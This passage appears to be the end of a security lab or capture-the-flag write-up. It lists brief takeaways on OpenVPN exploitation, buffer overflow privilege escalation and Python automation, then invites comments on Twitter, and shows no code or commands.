✅ **OpenVPN Exploitation:** Gained practical experience with VPN setup and exploitation.  
✅ **Buffer Overflow Skills:** Enhanced understanding of crafting exploits for privilege escalation.  
✅ **Automation Benefits:** Improved efficiency with Python scripting for repetitive tasks.  

---

> _If you have any questions or suggestions, please leave a comment below or DM me on [Twitter](https://twitter.com/StrongShiv8). Thank you!_
{: .prompt-tip }

___
